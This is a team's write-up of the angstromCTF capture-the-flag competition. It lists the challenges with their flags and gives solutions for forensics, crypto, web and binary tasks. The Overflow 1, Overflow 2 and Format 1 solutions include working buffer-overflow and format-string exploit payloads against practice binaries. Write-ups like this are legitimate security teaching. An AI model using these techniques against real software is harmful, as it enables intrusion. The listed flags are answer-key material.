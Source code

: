 # angstromCTF

AngstromCTF is created by several students, all at MBHS.

## Overview

**URL:** https://angstromctf.com/ (site will remain online)  
**Organisors:** Students at Montgomery Blair High School.  
**Duration:** 7 days  
**Team:** [shiltemann](https://github.com/shiltemann),
[Liblor](https://github.com/Liblor)

```
Title                         Category     Points  Flag
----------------------------- ------------ ------- --------------------------
Recovery                      forensics    10      waw_ctrl_f_was_sooper_afective
SPQR                          crypto       10      beware_the_ides_of_march
What the Hex                  crypto       15
Amoebananas!                  web          20      pseudopods_are_da_bomb
Artifact                      crypto       20      classics_are_always_in_style
Headsup                       forensics    30
SuperSecure™                  web          30      all_javascript_is_open
Whoops                        forensics    30
Endian of the World           binary       40      a_doomsday_device_is_only_useful_if_everyone_knows_about_it
Brute Force                   crypto       40
Not a Pastry                  web          40      good_ole_fashioned_homemade_cookies
ASM Tracing                   re           45      1775929344
Java is the Best              re           50
Overflow 1                    binary       50      overflow_underflow_youreaflow_imaflow
Shakespeare                   crypto       60
Shellcode                     binary       60      nonexecutable_stack_would_be_a_good_idea
Yankovic                      forensics    60
Overflow 2                    binary       70      youre_lucky_i_left_that_function_for_you
Smartest Encryption           re           70
Fender Blender                forensics    70
Wher iz mai cheezburgr        forensics    80
volatile                      forensics    90
What a Drag                   crypto       90
Sea Cipher 1                  re           100
Format 1                      binary       100     is_%n_used_for_anything_besides_this
Answer Machine                binary       110
åCTF Casino                   crypto       120
metasploitable                forensics    120
Music To My Ears              forensics    130
Flag Locker                   Web          140
rop2libc                      binary       160
My Accountant                 crypto       160
Help Center                   crypto       170
Sea Cipher 2                  re           170
RSA Fun                       crypto       240
Randomized Cipher             crypto       250
```


## Recovery

**Challenge**  
We recieved this disk image from the No Such Agency a few days ago. A hacker hid the password for his computer in this image. Can you find it for us?

**Solution**  
Firstly we checked if it is a special file type, because `file` couldn't match
it with a known file type we looked for a string with the word `flag` in the
file. Bingo!

```
$ file recovered.img
recovered.img: data
$ strings recovered.img | grep flag
flag{waw_ctrl_f_was_sooper_afective}
```

**Flag**
```
waw_ctrl_f_was_sooper_afective
```


## SPQR

**Challenge**  
We found this message written on a piece of parchment in the ruins of ancient
Rome. What could it mean?  
uxptkx_max_bwxl_hy_ftkva

**Solution**  
If you've already solved some CTFs or if you have some basic knowledge in
cryptography, you will be familiar with the caesar cipher. The easiest way is
to brute forece all 25 substitutions.
To decode the text, shift all letters by 7 in the alphabet.

**Flag**
```
beware_the_ides_of_march
```


##  Amoebananas!

**Challenge**  
The [amoeba](http://web.angstromctf.com:1337/) is a fascinating creature.

**Solution**  
We only have to look at the source code of the website, the flag is included as
comment.

    <!-- Your flag is: pseudopods_are_da_bomb -->

**Flag**  
```
pseudopods_are_da_bomb
```


## Artifact

**Challenge**  
This challenge also looks like a substitution cipher. You could surely perform a
frequency analysis by hand, but it's way easier to use a program like
http://quipqiup.com/index.php.

**Solution**  

```
'through me you pass into the city of woe:
through me you pass into eternal pain:
through me among the people lost for aye.
justice the founder of my fabric moved:
to rear me was the task of power divine,
supremest wisdom,
and primeval love.
before me things create were none,
save things eternal,
and eternal i shall endure.
all hope abandon, ye who enter here.'
the flag is classics_are_always_in_style
```

**Flag**  

```
classics_are_always_in_style
```


## Endian of the World

**Challenge**  
The end of the world is nigh! Dr. Doomsday has created an evil contraption to
destroy the planet, and only a single password can stop it! We were able to
recover the source code for the password check. Find the shortest password that
will stop Dr. Doomsday's machine and save the world! The program is available
on the shell server at /problems/endian_of_the_world/, and the binary and
[source](writeupfiles/endian.c) are provided.

**Solution**  
The password is in the source scattered in multiple hex digits.
The binary is a x86 file, that implies little endian.   
This script calculates the ascii letters:

```
#!/usr/bin/env python3
import binascii

l = ['0x6f645f61', '0x64736d6f', '0x645f7961', '0x63697665', '0x73695f65',
     '0x6c6e6f5f', '0x73755f79', '0x6c756665', '0x5f66695f', '0x72657665',
     '0x656e6f79', '0x6f6e6b5f', '0x615f7377', '0x74756f62', '0x0a74695f']
out = ""
for i in l:
    out += binascii.unhexlify(i[2:])[::-1].decode()
print(out)
```

**Flag**  
```
a_doomsday_device_is_only_useful_if_everyone_knows_about_it
```


## Overflow 1

**Challenge**  
This program is vulnerable to a buffer overflow! Can you exploit it to run a
shell and get the flag? You can solve this problem on our shell server at
/problems/overflow1, and the [binary](writeupfiles/overflow1) and
[source](writeupfiles/overflow1.c) are provided.

**Solution**  
This is the solution for the 32bit [overflow1](writeupfiles/overflow1_old)
version.
```
$ ./overflow1 $(python -c 'print "A"*16+"\xEF\xBE\xAD\xDE"')
```

**Flag**  
```
overflow_underflow_youreaflow_imaflow
```


## Overflow 2

**Challenge**  
Another program, another buffer overflow vulnerability! This time, though,
there should be no way to get a shell! See if you can prove us wrong and get
the flag on our shell sever. The binary for this problem is
[here](writeupfiles/overflow2), and source code is
[here](writeupfiles/overflow2.c).

**Solution**  
This is the solution for the 32bit overflow2 (Can't find a backup right now).
```
$ ./overflow2 $(python -c 'print "A"*16+"\xDD\x84\x04\x08"*4')
```

**Flag**  
```
youre_lucky_i_left_that_function_for_you
```


## Format 1

**Challenge**  
This program is vulnerable to a format string attack! Try supplying a format
string to overwrite a global variable and get a shell! You can exploit the
binary on our shell server at /problems/format1/. Download the binary here,
and source code is available here

**Solution**  
This is the solution for the 32bit format1 (Can't find a backup right now).
```
$ python -c 'print  "\x40\xa0\x04\x08%188x%7$n\n"' > ~/test
$ cat ~/test - | ./format1
$ cat flag.txt
```

**Flag**  
```
is_%n_used_for_anything_besides_this
```
